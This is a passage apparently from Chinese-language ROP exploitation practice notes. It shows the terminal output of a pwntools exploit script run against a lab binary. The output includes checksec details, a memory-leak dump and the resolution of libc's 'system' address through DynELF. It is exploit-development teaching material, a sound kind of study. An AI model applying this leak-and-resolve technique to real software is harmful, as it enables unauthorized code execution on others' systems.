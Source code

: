执行结果如下：

``` python
$ python level4_exp.py 
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x86/0x04/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './level2': pid 10140
0x8048000 => 7f454c46
[+] Loading from '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x86/0x04/level2': 0xf7ffd918
0x804a004 => 18d9fff7
[+] Resolving 'system' in 'libc.so': 0xf7ffd918
0x8049f14 => 01000000
0x8049f1c => 0c000000
0x8049f24 => 0d000000
0x8049f2c => 19000000
0x8049f34 => 1b000000
0x8049f3c => 1a000000
0x8049f44 => 1c000000
0x8049f4c => f5feff6f
0x8049f54 => 05000000
0x8049f5c => 06000000
0x8049f64 => 0a000000
0x8049f6c => 0b000000
0x8049f74 => 15000000
0x8049f7c => 03000000
0x8049f80 => 00a00408
0xf7ffd928 => 00000000
0xf7ffd91c => 04dcfff7
0xf7ffdc04 => 00000000
0xf7ffd924 => 08dcfff7
0xf7ffdc0c => 74defff7
0xf7ffde74 => 00000000
0xf7ffdc14 => b031fdf7
0xf7fd31b4 => 9031fdf7
0xf7fd3190 => 2f6c6962
0xf7fd3194 => 2f693338
0xf7fd3198 => 362d6c69
0xf7fd319c => 6e75782d
0xf7fd31a0 => 676e752f
0xf7fd31a4 => 6c696263
0xf7fd31a8 => 2e736f2e
0xf7fd31ac => 36000000
0xf7fd31b0 => 0020e0f7
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
0xf7e02000 => 7f454c46
0xf7fd31b8 => b03dfbf7
0xf7e02004 => 01010103
0xf7fb3db0 => 01000000
0xf7fb3db8 => 0e000000
0xf7fb3dc0 => 0c000000
0xf7fb3dc8 => 19000000
0xf7fb3dd0 => 1b000000
0xf7fb3dd8 => 04000000
0xf7fb3de0 => f5feff6f
0xf7fb3de8 => 05000000
0xf7fb3df0 => 06000000
0xf7fb3df8 => 0a000000
0xf7fb3e00 => 0b000000
0xf7fb3e08 => 03000000
0xf7fb3e0c => 0040fbf7
```